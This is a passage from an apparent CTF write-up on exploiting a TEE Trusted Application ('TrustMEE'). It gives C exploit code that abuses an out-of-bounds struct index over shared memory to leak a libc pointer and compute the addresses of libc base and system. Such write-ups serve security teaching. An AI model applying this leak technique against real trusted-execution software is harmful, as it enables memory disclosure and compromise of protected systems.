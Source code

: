 `$rsi=0x7fc3132b2000` is the address of our Shared Memory block and belongs to the `/dev/shm/5203tttttttttt972022484tttttt1704030777tttt` VMA. A little further below is the `rw-` page of `ld.so`. We will search that page, as it is the nearset one, for pointers in order to leak libc:

![libc-leak.png](/post-resources/TrustMEE/libc-leak.png)

Perfect! We find a libc leak at `$rsi+0x3000+0x18`, which corresponds to the symbol `_dl_catch_exception`. With some arithmetic, we find out that this symbol is located at libc offset `0x174820`. So, if we leak this pointer (`_dl_catch_exception=0x7fc3131c0820`) we can find the base address of libc!

```c
memset((void *)&operation, 0, sizeof(operation));
operation.paramTypes = TEEC_PARAM_TYPES(
  TEEC_MEMREF_WHOLE,
  TEEC_MEMREF_WHOLE,
  TEEC_VALUE_INPUT,
  TEEC_NONE
);
operation.params[0].memref.parent = &in_mem;
operation.params[1].memref.parent = &out_mem;
// Byte offset 0x3018 translates to :
//  0x3018/sizeof(struct student)
// =0x3018/0x28
// =307=0x133 offset of a `struct student` array.
operation.params[2].value.a = 0x133;

printf("Invoking command SIGN_CLASS_STUDENT: \n");
tee_rv = TEEC_InvokeCommand(&session, SIGN_CLASS_STUDENT, &operation, NULL);
if (tee_rv != TEEC_SUCCESS && tee_rv != TEEC_ERROR_SECURITY) {
  printf("TEEC_InvokeCommand failed: 0x%x\n", tee_rv);
  exit(tee_rv);
}
printf("res: 0x%x\n", tee_rv);
DumpHex(out_mem.buffer, sizeof(struct signedStudent));
uint64_t libc_leak = *(uint64_t*)((char*)out_mem.buffer+0x20);
uint64_t libc_base = libc_leak - 0x174820;
uint64_t libc_system = libc_base + 0x50d70;
printf("Found libc base: 0x%lx\n", libc_base);
```
